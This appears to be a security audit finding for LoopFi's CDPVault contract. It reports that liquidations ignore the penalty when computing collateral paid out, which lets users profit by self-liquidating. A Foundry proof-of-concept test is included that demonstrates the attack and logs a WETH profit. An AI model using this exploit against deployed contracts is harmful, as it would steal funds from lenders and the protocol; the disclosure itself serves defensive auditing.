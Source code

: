 ## [H] Liquidation doesn't account for penalty when calculating collateral to give, allowing users to profit by borrowing and self-liquidating

`CDPVault` allows users to borrow `underlying` from `PoolV3` by depositing collateral into the vault, such that the `(collateral value of their position / liquidationRatio) >= their current total debt`.

Users must repay their debt fully via `CDPVault::repay`, and the amount must cover their entire `current total debt`, which also includes various interest factors. If the value of their collateral divided by `liquidationRatio` is less than the debt of their position, then their position is considered `unsafe` and anyone can `liquidate` the position by buying the collateral at a `discount`. The amount spent by the caller is used to cover for the debt.

To ensure that users cannot profit from self liquidations, the `liquidatePosition` function incorporates a penalty mechanism, that is intended to deduct fees from the payment amount, which subsequently goes to the protocol as profit.

The problem is that when the `liquidatePosition` function calculates the collateral to give to the caller, it utilizes the the repay amount *without* the penalty, essentially functioning as if there is no penalty mechanism at all. The caller can specify any `repay amount`, and the collateral they receive will correspond directly to `repay amount / discount`, with no penalty.

This allows malicious users to profit by `deposit collateral -> borrow WETH -> have their position become unsafe -> buy collateral with WETH at a discount`. Malicious users can profit and steal funds from lenders and the protocol.

> The natspec for the `CDPVault::liquidatePosition` states that "From that repay amount a penalty (`liquidationPenalty`) is subtracted to mitigate against profitable self liquidations." 

However, we will see in the PoC how this has no impact against profitable self liquidations

### Proof of Concept

The following block is executed when users repay their debt:

[CDPVault.sol#L402-L426](repos/2024-07-loopfi/src/CDPVault.sol#L402-L426)

```javascript
    } else if (deltaDebt < 0) {
@>      uint256 maxRepayment = calcTotalDebt(debtData);
        uint256 amount = abs(deltaDebt);
        if (amount >= maxRepayment) {
            amount = maxRepayment; // U:[CM-11]
            deltaDebt = -toInt256(maxRepayment);
        }

        poolUnderlying.safeTransferFrom(creditor, address(pool), amount);

        uint128 newCumulativeQuotaInterest;
        if (amount == maxRepayment) {
            newDebt = 0;
            newCumulativeIndex = debtData.cumulativeIndexNow;
            profit = debtData.accruedInterest;
            newCumulativeQuotaInterest = 0;
        } else {
            (newDebt, newCumulativeIndex, profit, newCumulativeQuotaInterest) = calcDecrease(
                amount, // delta debt
                position.debt,
                debtData.cumulativeIndexNow, // current cumulative base interest index in Ray
                position.cumulativeIndexLastUpdate,
                debtData.cumulativeQuotaInterest
            );
        }
```

For users to completely repay their loan, they must pay `maxRepayment` amount, which is calculated via a call to `calcTotalDebt`.

If the position is unsafe (`collateral value / liquidation ratio < total debt`), then anyone can liquidate it for a discount:

[CDPVault.sol#L521-L532](repos/2024-07-loopfi/src/CDPVault.sol#L521-L532)

```javascript
        // load price and calculate discounted price
        uint256 spotPrice_ = spotPrice();
@>      uint256 discountedPrice = wmul(spotPrice_, liqConfig_.liquidationDiscount);
        if (spotPrice_ == 0) revert CDPVault__liquidatePosition_invalidSpotPrice();
        // Ensure that there's no bad debt
        if (calcTotalDebt(debtData) > wmul(position.collateral, spotPrice_)) revert CDPVault__BadDebt();

        // compute collateral to take, debt to repay and penalty to pay
@>      uint256 takeCollateral = wdiv(repayAmount, discountedPrice);
        uint256 deltaDebt = wmul(repayAmount, liqConfig_.liquidationPenalty);
        uint256 penalty = wmul(repayAmount, WAD - liqConfig_.liquidationPenalty);
```

There is also a penalty that the liquidator must pay (deducted from `repayAmount`). This is to mitigate profits from self-liquidation, as stated by the natspec of this function:

[CDPVault.sol#L503-L504](repos/2024-07-loopfi/src/CDPVault.sol#L503-L504)

```javascript
    /// ... From that repay amount a penalty (`liquidationPenalty`) is subtracted to mitigate against
    /// profitable self liquidations ...
```

So the actual amount of debt repaid by the liquidator is `repayAmount - penalty`:

[CDPVault.sol#L538-L539](repos/2024-07-loopfi/src/CDPVault.sol#L538-L539)

```javascript
    // transfer the repay amount from the liquidator to the vault
    poolUnderlying.safeTransferFrom(msg.sender, address(pool), repayAmount - penalty);
```

In the same call, the `penalty` is also transferred to the pool, taken as a profit for the protocol.

[CDPVault.sol#L567-L569](repos/2024-07-loopfi/src/CDPVault.sol#L567-L569)

```javascript
     // Mint the penalty from the vault to the treasury
        poolUnderlying.safeTransferFrom(msg.sender, address(pool), penalty);
        IPoolV3Loop(address(pool)).mintProfit(penalty);
```

However, there is a critical problem here. We can see that the intention here is that the caller pays `repayAmount - penalty` for the debt, and that the penalty goes towards profit.

This can be confirmed by observing the amount of debt that is covered via repayment:

[CDPVault.sol#L530](repos/2024-07-loopfi/src/CDPVault.sol#L530)

```javascript
     uint256 deltaDebt = wmul(repayAmount, liqConfig_.liquidationPenalty);
```

Note that `repayAmount * liqConfig_.liquidationPenalty` is equivalent to `repayAmount - penalty`. So the debt reduced is `repayAmount - penalty`. The problem is that the *collateral sent to the caller does not incorporate the penalty for liquidation*.

Essentially, this makes the `penalty` redundant, because the caller still receives the full `repayAmount` of collateral specified, including a `discount`.

A malicious user can perform the following attack scenario:

1. Deposit collateral via `CDPVault::deposit`.
2. Borrow WETH via `CDPVault::borrow`.
3. Have their position become unsafe (i.e., wait until enough debt interest is accrued such that `(collateral value of their position / liquidationRatio) < their current total debt`).
4. Fully buy back collateral at a discount.

### Coded PoC

Note: The value of the discount and penalty were chosen by observing the values currently set in `scripts/config.js`, they were not chosen arbitrarily.

Add the following to `test/unit/CDPVault.t.sol` and run `forge test --mt testSelfLiquidateProfit -vv`:

```javascript
    function testSelfLiquidateProfit() public {
        mockWETH.mint(address(this), 20e18);

        // discount = 0.98 ether (0.02% discount)
        // penalty = 0.99 ether (0.01% penalty)
        CDPVault vault = createCDPVault(token, 150 ether, 0, 1.25 ether, 0.99 ether, 0.98 ether);
        createGaugeAndSetGauge(address(vault));

        // create position
        uint256 wethBefore = mockWETH.balanceOf(address(this));
        _modifyCollateralAndDebt(vault, 100 ether, 80 ether);
        uint256 wethBorrowed = mockWETH.balanceOf(address(this)) - wethBefore;
        uint256 collateralDeposited = 100 ether;
        console.log("weth borrowed: ", wethBorrowed);
        console.log("collateral deposited: ", collateralDeposited);
        
        address position = address(this);
        uint256 amountUserMustRepay = vault.virtualDebt(position);
        console.log("Amount of debt user must repay: ", amountUserMustRepay);

        // any attempt to liquidate now will revert because position is safe
        vm.expectRevert(bytes4(keccak256("CDPVault__liquidatePosition_notUnsafe()")));
        vault.liquidatePosition(position, 1 ether);

        // user waits some time for price to change so position becomes unsafe (but no bad debt yet)
        // in reality, interest will accrue, however to make this PoC simple we will update spot price (which is another way user can take advantage)
        _updateSpot(0.80 ether);
        (uint256 collateral, uint256 debt , , , , ) = vault.positions(position);

        // calculate amount to repay to fully liquidate position.
        uint256 spotAmt = oracle.spot(address(token));
        uint256 discountPercent = 0.98 ether;
        uint256 discountAmount = wmul(spotAmt, discountPercent);
        uint256 repayFull = wmul(collateral, discountAmount);
        console.log("Amount user is repaying: ", repayFull);
        mockWETH.approve(address(vault), repayFull);

        // fully liquidate position
        wethBefore = mockWETH.balanceOf(address(this));
        uint collateralBefore = token.balanceOf(address(this));
        vault.liquidatePosition(position, repayFull);
        uint256 wethSpent = wethBefore - mockWETH.balanceOf(address(this));
        uint256 collateralReceived = token.balanceOf(address(this)) - collateralBefore;
        console.log("weth spent: ", wethSpent);
        console.log("collateral received: ", collateralReceived);
        
        console.log("Total WETH earned: ", wethBorrowed - wethSpent);
        console.log("collateral lost: ", collateralDeposited -  collateralReceived);

        // confirm that collateral in position is 0
        (collateral, debt, , , , ) = vault.positions(position);
        console.log("collateral remaining in position: ", collateral);
    }
```

```text
[PASS] testSelfLiquidateProfit() (gas: 3761322)
Logs:
  weth borrowed:  80000000000000000000
  collateral deposited:  100000000000000000000
  Amount of debt user must repay:  80000000000000000000
  Amount user is repaying:  78400000000000000000
  weth spent:  78400000000000000000
  collateral received:  100000000000000000000
  Total WETH earned:  1600000000000000000
  collateral lost:  0
  collateral remaining in position:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.46ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As displayed in the coded PoC, since the user receives the full amount of collateral without the penalty applied to the amount they receive, the user profits 1.6e18 WETH with the attack scenario described above.



